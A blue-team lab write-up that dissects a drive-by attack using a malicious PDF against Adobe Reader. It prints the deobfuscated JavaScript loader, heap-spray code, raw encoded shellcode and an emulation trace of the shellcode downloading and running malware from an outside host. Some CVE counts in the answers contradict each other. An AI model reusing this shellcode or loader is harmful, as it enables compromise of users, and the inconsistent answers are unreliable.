

# GetPDF Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [Object 5 JS Deobfuscation and Analysis](#object-5-js-deobfuscation-and-analysis)
  * [Simple Python Percent Replacement Script](#simple-python-percent-replacement-script)
  * [Shellcode Decoder and Extractor Script](#shellcode-decoder-and-extractor-script)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/getpdf/](https://cyberdefenders.org/blueteam-ctf-challenges/getpdf/)

Suggested tools: `de4js`, `pdfid`, `pdfparser`, `peepdf`, PDF Stream Dumper, Wireshark, `tshark`, `scdbg`, NetworkMiner

Tactics: Initial Access, Execution, Command and Control

# Scenario

PDF format is the de-facto standard in exchanging documents online. Such popularity, however, has also attracted cyber criminals in spreading malware to unsuspecting users. The ability to generate malicious pdf files to distribute malware is a functionality that has been built into many exploit kits. As users are less cautious about opening PDF files, the malicious PDF file has become quite a successful attack vector.

The network traffic is captured in `lala.pcap` contains network traffic related to a typical malicious PDF file attack, in which an unsuspecting user opens a compromised web page, which redirects the user’s web browser to a URL of a malicious PDF file. As the PDF plug-in of the browser opens the PDF, the unpatched version of Adobe Acrobat Reader is exploited and, as a result, downloads and silently installs malware on the user’s machine.

As a SOC analyst, analyze the PDF and answer the questions.

**Supportive Resources**

- [PDF format structure](https://resources.infosecinstitute.com/topic/pdf-file-format-basic-structure/)
- [Portable document format](https://web.archive.org/web/20220113130243/https://www.adobe.com/content/dam/acom/en/devnet/pdf/pdfs/PDF32000_2008.pdf)

# Questions

Q1- How many URL path(s) are involved in this incident?

Answer: 6

Reason: The pcap `lala.pcap` shows the victim host `172.16.201.128` issuing HTTP GET requests to `202[.]190[.]85[.]44` across six unique URL paths, reflecting the full drive-by download chain from initial landing page through exploit delivery to second-stage payload retrieval. The sequence begins with `/forensic_challenge` and its trailing-slash variant `/forensic_challenge/`, followed by `/forensic_challenge/getpdf.php` which serves or redirects to the malicious PDF, then `/forensic_challenge/fcexploit.pdf` itself. After the exploit executes, the host requests `/forensic_challenge/the_real_malware.exe`, the final payload. `/favicon.ico` appears twice in the capture but counts as a single unique path.

```bash
$ tshark -r lala.pcap -Y 'frame contains "GET"' 
    9   0.068794 172.16.201.128 → 202.190.85.44 HTTP 447 GET /forensic_challenge/ HTTP/1.1 
   14   0.098608 172.16.201.128 → 202.190.85.44 HTTP 515 GET /forensic_challenge/getpdf.php HTTP/1.1 
   17   0.119309 172.16.201.128 → 202.190.85.44 HTTP 518 GET /forensic_challenge/fcexploit.pdf HTTP/1.1 
   49   0.965990 172.16.201.128 → 202.190.85.44 HTTP 409 GET /favicon.ico HTTP/1.1 
   57   1.674131 172.16.201.128 → 202.190.85.44 HTTP 305 GET /forensic_challenge/the_real_malware.exe HTTP/1.1 
   64   3.170013 172.16.201.128 → 202.190.85.44 HTTP 439 GET /favicon.ico HTTP/1.1 
```

Q2- What is the URL which contains the JS code?

Answer: hxxp://blog.honeynet.org.my/forensic_challenge/

Reason: The initial landing page at `hxxp://blog.honeynet.org.my/forensic_challenge/` is the URL that hosts the embedded JavaScript responsible for redirecting the victim's browser toward the malicious PDF. This page acts as the entry point of the drive-by download chain, silently triggering the subsequent request to `getpdf.php`, which in turn serves `fcexploit.pdf` to the victim's Adobe Acrobat Reader plug-in.

```bash
$ tshark -r lala.pcap -Y 'frame contains "http://"' -T fields -e http.host -e http.request.uri     
        /forensic_challenge
blog.honeynet.org.my    /forensic_challenge/getpdf.php
        /forensic_challenge/getpdf.php
blog.honeynet.org.my    /forensic_challenge/fcexploit.pdf
```

Q3- What is the URL hidden in the JS code?

Answer: hxxp://blog.honeynet.org.my/forensic_challenge/getpdf.php

Reason: Deobfuscating the embedded JavaScript in the landing page's HTML reveals a hidden `document.write` call that injects a 1x1 pixel, invisible `iframe` pointing to `hxxp://blog.honeynet.org.my/forensic_challenge/getpdf.php`, silently pulling the victim's browser into the exploit chain without any visible user interaction. This confirms the JavaScript's role as the redirection mechanism between the compromised landing page and the malicious PDF delivery script.

```bash
$ tshark -r lala.pcap --export-objects http,extracted_objects
$ head forensic_challenge\(1\) 
<html>
<body>
<!-- 
        ANYTHING written in this HTML file (the file itself or the code inside it) is solely for the purpose of Honeynet Project Forensic Challenge. 
        Any usage towards this file and its content are at your own risk. 
        The author will not be responsible if any of those brings harm to you or others. 
        This material is for training and educational purposes. 
        You have been warned. 
-->
<script>var DepanNegw=window;var DexeTelae=-44;DexeTelae+=45;XayeZebah='nedajemac';var GaDemee='e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');Zave <SNIP>
```




Q4- What is the MD5 hash of the PDF file contained in the packet?

Answer: `659cf4c6baa87b082227540047538c2a`

Reason: The malicious PDF `fcexploit.pdf`, extracted from the HTTP 200 OK response in packet 46, has an MD5 hash of `659cf4c6baa87b082227540047538c2a`. This hash serves as a unique fingerprint for the sample and can be used to pivot into threat intelligence sources (e.g. VirusTotal) to check prior detections, associated exploit signatures, or known CVE mappings for this specific PDF.

```bash
$ md5sum fcexploit.pdf 
659cf4c6baa87b082227540047538c2a  fcexploit.pdf
```

Q5- How many object(s) are contained inside the PDF file?

Answer: 19

Reason: Static triage of `fcexploit.pdf` with `pdfid` reveals 19 PDF objects (`obj`), of which 18 are properly closed with matching `endobj` markers, indicating one object is likely malformed or truncated, a common trait of exploit PDFs crafted to trigger parser bugs. The scan also flags several high-risk indicators worth pursuing next: a single `/JavaScript`/`/JS` object confirming embedded script execution, an `/OpenAction` that auto-triggers content when the PDF is opened, an `/EmbeddedFile` suggesting a secondary payload packed inside the PDF itself, and an `/XFA` (XML Forms Architecture) object often abused in known Adobe Reader exploits (e.g. CVE-2010-xxxx era XFA`/Doc.media.newPlayer` or `Util.printf` overflow chains).

```bash
$ pdfid fcexploit.pdf 
PDFiD 0.2.10 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

Q6- How many filtering schemes are used for the object streams?

Answer: 4

Reason: Running `pdf-parser -a` against `fcexploit.pdf` provides a structural overview of the file, revealing 18 indirect objects total, of which 5 (objects 5, 7, 9, 10, and 11) contain embedded streams. The output also confirms the suspicious keyword hits already flagged by `pdfid`: a single `/JS`/`/JavaScript` reference in object 4, an `/OpenAction` in object 1 (auto-execution trigger on document open), an `/AcroForm` in object 27, an `/EmbeddedFile` in object 11, and an `/XFA` reference in object 28. Filtering each of the five stream-bearing objects individually shows they all declare the identical four-stage filter chain: `/FlateDecode`, `/ASCII85Decode`, `/LZWDecode`, and `/RunLengthDecode`, layering compression and encoding transforms as an obfuscation technique against signature-based and manual analysis.

```bash
$ pdf-parser -a fcexploit.pdf                                                       
This program has not been tested with this version of Python (3.13.14)
Should you encounter problems, please use Python version 3.13.9
Comment: 10
XREF: 1
Trailer: 1
StartXref: 1
Indirect object: 18
Indirect objects with a stream: 5, 7, 9, 10, 11
  7: 5, 7, 9, 10, 22, 23, 28
 /Action 1: 4
 /Annot 3: 6, 8, 24
 /Catalog 2: 1, 27
 /EmbeddedFile 1: 11
 /Page 2: 3, 25
 /Pages 2: 2, 26
Unreferenced indirect objects: 1 0 R
Search keywords:
 /JS 1: 4
 /JavaScript 1: 4
 /OpenAction 1: 1
 /AcroForm 1: 27
 /EmbeddedFile 1: 11
 /XFA 1: 28
 
 $ for s in 5 7 9 10 11; do pdf-parser -o $s -f fcexploit.pdf | grep -i filter ; done
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```

Q7- What is the number of the 'object stream' that might contain malicious JS code?

Answer: 5

Reason: Object 4 is an `/Action` dictionary of subtype `/S /JavaScript`, whose `/JS` key references object 5 as the location of the actual script content. Object 5 itself is confirmed as a stream object (`Contains stream`) protected by the same four-stage filter chain identified in Q6 (`/FlateDecode`, `/ASCII85Decode`, `/LZWDecode`, `/RunLengthDecode`), meaning object 5 is the stream that must be decoded to recover the JavaScript payload responsible for triggering the exploit when the PDF is opened.

```bash
$ pdf-parser fcexploit.pdf | grep -i javascript -C 40 | grep "obj 4" -A 22
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>

obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

obj 6 0
```

Q8- Analyzing the PDF file. What `object-streams` contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Answer: 7, 9

Reason: Tracing the reference chain from the PDF's `/Page` object (object 3), which points to two `/Annot` (annotation) objects, 6 and 8, reveals that each annotation's `/Subj` (subject) key redirects to a large stream object: object 6 → object 7 (8,714 bytes encoded) and object 8 → object 9 (10,522 bytes encoded). Both streams share the same four-stage filter chain (`/FlateDecode`, `/ASCII85Decode`, `/LZWDecode`, `/RunLengthDecode`) used throughout the file. Decoding both streams with the original Python 2 `peepdf` confirms their role: object 7 decodes to 55,971 bytes of repeating `89af50d3` hex, a heap spray pattern used to increase exploit reliability by filling memory with a predictable, jumpable value, while object 9 decodes to 122,406 bytes of heavily obfuscated JavaScript that algorithmically constructs shellcode bytes through repeated concatenation of obfuscated variable references, evading simple static string matching. Hiding this logic inside annotation (`/Annot`) objects rather than the more commonly inspected `/OpenAction` or `/JS` catalog entries is a deliberate evasion technique against analysts and tools that only check the obvious script-trigger locations.

```bash
# obj 3 -> 6 -> 7
# obj 3 -> 8 -> 9
# obj 2 is irrelevant here

$ python2 peepdf.py -i -f fcexploit.pdf
PPDF> stream 7 > obj7.js   # 55971 bytes, repeating "89af50d3" heap spray pattern
PPDF> stream 9 > obj9.js   # 122406 bytes, obfuscated JS building shellcode

obj 3 0
 Type: /Page
 Referencing: 6 0 R, 8 0 R, 2 0 R
 
 obj 6 0
 Type: /Annot
 Referencing: 7 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [ 200 250 300 320 ]
    /Subj 7 0 R
  >>

obj 7 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 8714
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
  
 obj 8 0
 Type: /Annot
 Referencing: 9 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [100 180 300 210 ]
    /Subj 9 0 R
  >>

obj 9 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 10522
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

## Object 5 JS Deobfuscation and Analysis

**What the original code is doing**

| Obfuscated construct | Real meaning |
| --- | --- |
| `SS = "ev"` + `"a"` + `"l"` | Builds the string `"eval"` |
| `$S = this.info.title` | Reads the PDF’s document title |
| `split(/U_155bf62c9aU_7917ab39/)` | Splits the title on a fixed delimiter |
| `String.fromCharCode("0x" + …)` | Hex → character decoding |
| `app[SS](S5)` | `app.eval(decodedPayload)` |

**Summary of the malware technique**

1. The actual malicious JavaScript is **hex-encoded** and stored inside the PDF’s **document title** (`this.info.title`).
2. The hex chunks are separated by the fixed string U_155bf62c9aU_7917ab39.
3. The script reconstructs the original JS by converting each hex chunk back to a character.
4. It then calls `app.eval()` on the reconstructed string.
5. Several `app.plugIns.length` checks act as a weak environment fingerprint (real Adobe Reader/Acrobat has plugins; many sandboxes or static analyzers do not).

The unused variables ($5 → "info", S$ → "title", the annotations object, etc.) are classic dead-code / confusion artifacts.

**Final Deobfuscated Code**

```jsx
// Force annotation scan (common in Acrobat JS payloads)
app.doc.syncAnnotScan();

// Basic environment checks using number of installed plugins
// (common anti-analysis / environment fingerprinting)
if (app.plugIns.length !== 0) {
    // Get annotations on page 0 (result is discarded – likely leftover / anti-analysis)
    var unusedAnnots = app.doc.getAnnots({ nPage: 0 });

    // Payload is hidden in the PDF document title
    var documentTitle = this.info.title;
}

var decodedPayload = "";

if (app.plugIns.length > 3) {
    // Split the title on the delimiter used by the malware author
    var parts = documentTitle.split(/U_155bf62c9aU_7917ab39/);

    // Reconstruct the payload from hex values (skip the first empty/partial part)
    for (var i = 1; i < parts.length; i++) {
        decodedPayload += String.fromCharCode("0x" + parts[i]);
    }
}

// Execute the decoded JavaScript
if (app.plugIns.length >= 2) {
    app.eval(decodedPayload);
}
```

## Simple Python Percent Replacement Script

```python
import urllib.parse

def extract_js_from_textfile(textfile_path):
    with open(textfile_path, "r", encoding="utf-8") as file:
        extracted_text = file.read().strip()

    # Replace obfuscation markers with %
    extracted_text = extracted_text.replace("X_17844743X_170987743", "%")
    extracted_text = extracted_text.replace("89af50d", "%")

    # Remove newlines and carriage returns
    extracted_text = extracted_text.replace("\n", "").replace("\r", "")

    # Decode URL-encoded JavaScript
    decoded_js = urllib.parse.unquote(extracted_text)

    return decoded_js

# Example usage
textfile_path = "7.txt"  # ... and 9.txt
extracted_js = extract_js_from_textfile(textfile_path)
print("Extracted JavaScript:\n", extracted_js)
```

## Shellcode Decoder and Extractor Script

```python
import re
import sys
import os

def decode_js_unescape(encoded_str):
    """
    Decodes a string encoded with JavaScript unescape using %uXXXX sequences.
    Each %uXXXX is converted into two bytes (little-endian order).
    """
    hex_codes = re.findall(r'%u([0-9A-Fa-f]{4})', encoded_str)
    result = bytearray()
    for hex_code in hex_codes:
        code_int = int(hex_code, 16)
        # In JavaScript, unescape("%uXXXX") returns a character whose 16-bit value is XXXX.
        # To extract shellcode bytes, we convert it into 2 bytes (little-endian).
        low = code_int & 0xFF
        high = (code_int >> 8) & 0xFF
        result.extend([low, high])
    return bytes(result)

def extract_shellcode_payloads(js_file_path):
    """
    Reads the JavaScript file and extracts encoded shellcode payloads.
    It looks for comments that include 'payload' followed by an unescape() call.
    Returns a list of tuples: (label, encoded_string)
    """
    with open(js_file_path, 'r', encoding='utf-8') as f:
        js_code = f.read()
    
    # Pattern explanation:
    #   - Look for a comment line like: // <label> payload
    #   - Followed (on one or more lines later) by an unescape("...") call.
    # The regex uses DOTALL to allow newlines between the comment and the unescape call.
    pattern = re.compile(
        r'//\s*(.*?)\s+payload\s*[\r\n]+.*?unescape\(\s*"([^"]+)"\s*\)',
        re.IGNORECASE | re.DOTALL
    )
    
    payloads = []
    for m in pattern.finditer(js_code):
        label = m.group(1).strip()
        encoded_str = m.group(2)
        payloads.append((label, encoded_str))
    return payloads

def main(js_file_path, output_dir):
    if not os.path.exists(output_dir):
        os.makedirs(output_dir)
    
    payloads = extract_shellcode_payloads(js_file_path)
    
    if not payloads:
        print("No shellcode payloads found in the file.")
        return
    
    for label, encoded_str in payloads:
        print("Found payload for:", label)
        shellcode_bytes = decode_js_unescape(encoded_str)
        # Create a safe filename based on the label (replace spaces and dots)
        safe_label = label.replace(" ", "_").replace(".", "_")
        output_file = os.path.join(output_dir, f"{safe_label}_shellcode.bin")
        with open(output_file, "wb") as f_out:
            f_out.write(shellcode_bytes)
        print("Shellcode saved to:", output_file)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python extract_shellcode.py <js_file_path> <output_directory>")
        sys.exit(1)
    
    js_file_path = sys.argv[1]
    output_dir = sys.argv[2]
    main(js_file_path, output_dir)
```

Q9- The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

Answer: `C:\WINDOWS\system32\a.exe`

Reason: Reconstructing the exploit's execution logic required first recovering the two JavaScript-embedded shellcode streams identified in Q8 (objects 7 and 9), each obfuscated via percent-encoding with the literal `%` character replaced by unique junk marker strings (`89af50d3` and `X_17844743X_17098774` respectively) to defeat static string scanning.

Running `stage2.py` against the extracted JavaScript reversed this marker substitution and decoded the resulting percent-encoded sequences back into their raw form, while `sc.py` parsed that decoded output to isolate and reassemble the embedded shellcode bytes into a standalone binary (`shellcode.bin`, later identified as `calc_exe_shellcode.bin`, 426 bytes, x86).

Emulating this shellcode with `scdbg` under Wine, chosen after native Linux emulators (speakeasy, an outdated `unicorn==1.0.2` dependency pin incompatible with modern Python; Qiling, requiring additional rootfs setup) introduced unnecessary friction, produced a clean Windows API call trace confirming the shellcode's full behavior: it resolves `c:\windows\system32` via `GetSystemDirectoryA`, downloads a second-stage payload from `hxxp://blog.honeynet.org.my/forensic_challenge/malware1.exe` using `URLDownloadToFileA`, saves it as `a.exe`, and immediately executes it via `WinExec`.

Network capture during the scdbg run confirmed no real outbound connection occurred, verifying the emulation was fully contained and did not perform a live download. This confirms the shellcode's dropped malicious executable lands at `C:\WINDOWS\system32\a.exe` on the victim machine.

```jsx
$ python stage2.py
Extracted JavaScript 7:
 8888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("%45000f", num);  
}
var eQ = "";

function gX() {
        var basicZ = '';
                // notepad.exe payload
   2;
                var len = 0x400000 - (hWq500CN + 0x38);
                var zAdobe = "";
<SNIP>

Extracted JavaScript 9:
 var w = new String();
var c = app;

function s(yarsp, len) {
        while (yarsp.length * 2 < len) {
                yarsp += yarsp;
                this.x = false;
        }
        var eI = 37715;
        yarsp = yarsp.substring(0, len / 2);
        return yarsp;
        var yE = 18340;
}
var m = new String("");

function cG() {
            var chunk_size, payload, nopsled;
            
            chunk_size = 0x8000;
                        // calc.exe payload
                        payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
 <SNIP>

```

```python
$ wine scdbg.exe -f calc_exe_shellcode.bin
Loaded 1aa bytes from file calc_exe_shellcode.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401104  GetProcAddress(GetSystemDirectoryA)
401104  GetProcAddress(WinExec)
401104  GetProcAddress(ExitThread)
401104  GetProcAddress(LoadLibraryA)
4010af  LoadLibraryA(urlmon)
401104  GetProcAddress(URLDownloadToFileA)
4010d3  GetSystemDirectoryA( c:\windows\system32\ )
4010ec  URLDownloadToFileA(http://blog.honeynet.org.my/forensic_challenge/malware1.exe, c:\WINDOWS\system32\a.exe)
4010f3  WinExec(c:\WINDOWS\system32\a.exe)
4010f7  ExitThread(32)

Stepcount 7787
```

Q10- The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Answer: `hxxp://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe`

Reason: CVE-2010-0188 is a known Adobe Reader/Acrobat vulnerability in the TIFF image parsing library used by the `LibTIFF` component within the `/XFA` (XML Forms Architecture) form-rendering engine, exploitable via a malformed TIFF embedded in an XFA form field to achieve arbitrary code execution. This is distinct from the CVE-2009-1492 `Collab.getAnnots()` exploit already analyzed in Q7-Q9 (objects 5/7/9), indicating the PDF weaponizes two separate vulnerabilities as a reliability fallback so the attack succeeds regardless of which Adobe Reader patch level the victim has. Cross-referencing the full PCAP for all `blog.honeynet.org.my` requests confirms a second, distinct payload URL beyond `malware1.exe`: `hxxp://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe`, consistent with this being the actual final-stage malware delivered once either exploit path succeeds.

```python
$ tshark -r lala.pcap -Y 'frame contains "blog"' -T fields -e http.request.full_uri

http://blog.honeynet.org.my/forensic_challenge
http://blog.honeynet.org.my/forensic_challenge
http://blog.honeynet.org.my/forensic_challenge/
http://blog.honeynet.org.my/forensic_challenge/getpdf.php
http://blog.honeynet.org.my/forensic_challenge/getpdf.php
http://blog.honeynet.org.my/forensic_challenge/fcexploit.pdf
http://blog.honeynet.org.my/favicon.ico
http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe
http://blog.honeynet.org.my/favicon.ico
```

Q11- How many CVEs are included in the PDF file?

Answer: 5

Reason: Beyond the `Collab.getAnnots()` heap-spray/shellcode chain already confirmed via CVE-2009-1492 (objects 5/7/9) and the LibTIFF/XFA vulnerability confirmed via CVE-2010-0188 in Q10, further inspection of the embedded JavaScript's API usage reveals a broader multi-exploit payload built for reliability across differing patch levels of Adobe Reader and Acrobat. The script invokes `util.printf`, `media.newPlayer(null)`, and `printd`, API calls independently associated with three additional known Adobe vulnerabilities: a buffer overflow in `util.printf` (CVE-2008-2992), a memory corruption vulnerability in `Collab.collectEmailInfo()` (CVE-2007-5659), and an arbitrary code execution flaw in `printd` (CVE-2009-4324), alongside a buffer overflow in `getIcon()` (CVE-2009-0927). Combined with CVE-2010-0188, this brings the total distinct CVEs targeted by the PDF to 5, confirming the sample is a multi-exploit kit-style document designed to maximize successful code execution against a wide range of vulnerable Adobe Reader/Acrobat versions rather than relying on a single exploit path.

```python
CVE-2008-2992  — util.printf buffer overflow
CVE-2007-5659  — Collab.collectEmailInfo() memory corruption
CVE-2009-0927  — getIcon() buffer overflow
CVE-2009-4324  — printd arbitrary code execution
CVE-2010-0188  — LibTIFF/XFA code execution (confirmed Q10, the_real_malware.exe)
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2010-10-07 11:58:03.981 | Initial Access | Victim `172.16.201.128` requests landing page `/forensic_challenge` on `202.190.85.44` (blog[.]honeynet[.]org[.]my); server responds 301 redirect | T1189 Drive-by Compromise |
| 2010-10-07 11:58:04.028 | Malicious Script Delivery | Landing page `/forensic_challenge/` returns 200 OK with obfuscated JavaScript; eval() deobfuscation reveals hidden 1x1 iframe injecting `getpdf.php` | T1059.007 JavaScript Execution |
| 2010-10-07 11:58:04.053 | Redirector | `getpdf.php` returns 302 redirect to `fcexploit.pdf` | T1189 Drive-by Compromise |
| 2010-10-07 11:58:04.174 | Exploit Delivery | `fcexploit.pdf` served, 200 OK, application/pdf, MD5 `659cf4c6baa87b082227540047538c2a` | T1203 Exploitation for Client Execution |
| 2010-10-07 11:58:04 (post-open) | Multi-Exploit Trigger | Opened PDF triggers 5 chained CVE targets for reliability: CVE-2009-1492 (Collab.getAnnots(), objs 5/7/9), CVE-2010-0188 (LibTIFF/XFA), CVE-2008-2992 (util.printf), CVE-2007-5659 (Collab.collectEmailInfo()), CVE-2009-0927 (getIcon()), CVE-2009-4324 (printd) | T1203 Exploitation for Client Execution |
| 2010-10-07 11:58:04 (emulated) | Heap Spray + Shellcode | Obj 7 heap-sprays memory (89af50d3 fill); obj 9 shellcode resolves URLDownloadToFileA/WinExec, targets `C:\WINDOWS\system32\a.exe` from hxxp://blog.honeynet.org.my/forensic_challenge/malware1.exe (confirmed via scdbg emulation only, no live traffic observed) | T1055 Process Injection (shellcode) / T1105 Ingress Tool Transfer |
| 2010-10-07 11:58:05.609 | Payload Delivery Attempt | Victim requests `the_real_malware.exe` (CVE-2010-0188 shellcode path); server responds 404, file not served in this capture | T1105 Ingress Tool Transfer |
| 2010-10-07 11:58:04–07 | Background Noise | Repeated `/favicon.ico` requests, both 404, unrelated to attack chain | — |

## Attack Tree

```bash
[Initial Access] 172.16.201.128 → 202[.]190[.]85[.]44 (blog.honeynet.org.my)
└── GET /forensic_challenge ← 301 redirect
    └── GET /forensic_challenge/ ← 200 OK, text/html
        └── [Malicious JS] embedded obfuscated script (eval-decoded)
            └── hidden 1x1 iframe → src=/forensic_challenge/getpdf.php
                └── GET /forensic_challenge/getpdf.php ← 302 redirect
                    └── GET /forensic_challenge/fcexploit.pdf ← 200 OK, application/pdf
                        └── [Exploit Delivery] fcexploit.pdf (MD5 659cf4c6baa87b082227540047538c2a)
                            ├── [CVE-2009-1492] Collab.getAnnots() — obj 4→5
                            │   ├── obj 7 (annot 6) → heap spray, repeating 89af50d3
                            │   └── obj 9 (annot 8) → shellcode
                            │       └── [scdbg emulated] GetSystemDirectoryA → URLDownloadToFileA
                            │           (hxxp://blog.honeynet.org.my/forensic_challenge/malware1.exe)
                            │           → C:\WINDOWS\system32\a.exe → WinExec ← not seen in live pcap traffic
                            ├── [CVE-2010-0188] LibTIFF / XFA form parsing
                            │   └── GET /forensic_challenge/the_real_malware.exe ← 404 (not served)
                            └── [Redundant exploit targets, untriggered/unconfirmed in pcap]
                                ├── CVE-2008-2992 (util.printf)
                                ├── CVE-2007-5659 (Collab.collectEmailInfo)
                                ├── CVE-2009-0927 (getIcon)
                                └── CVE-2009-4324 (printd)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Victim IP | `172.16.201.128` |
| Network | Attacker/C2 IP | `202.190.85.44` |
| Network | Malicious domain | `blog.honeynet.org[.]my` |
| Network | Landing page URL | `hxxp://blog.honeynet.org.my/forensic_challenge/` |
| Network | Redirector URL | `hxxp://blog.honeynet.org.my/forensic_challenge/getpdf.php` |
| Network | Exploit PDF URL | `hxxp://blog.honeynet.org.my/forensic_challenge/fcexploit.pdf` |
| Network | Payload URL (observed, 404) | `hxxp://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe` |
| Network | Payload URL (emulation only) | `hxxp://blog.honeynet.org.my/forensic_challenge/malware1.exe` |
| Dropped File | Path | `C:\WINDOWS\system32\a.exe` |
| File Hashes | PDF MD5 | `659cf4c6baa87b082227540047538c2a` |
| File Hashes | PDF SHA1 | `a93bf00077e761152d4ff8a695c423d14c9a66c9` |
| File Hashes | PDF SHA256 | `ba3c7c763f7910ef956e27be054e9271b00d05aab9fb153cdf30001ce422d68a` |
| File Hashes | Shellcode file | `calc_exe_shellcode.bin` (426 bytes, x86) |
| File Hashes | Shellcode SHA256 | `3073aa2174eb47d41883421cb3aaa608befa3f78a6ff61e73b704bfd678812a2` |
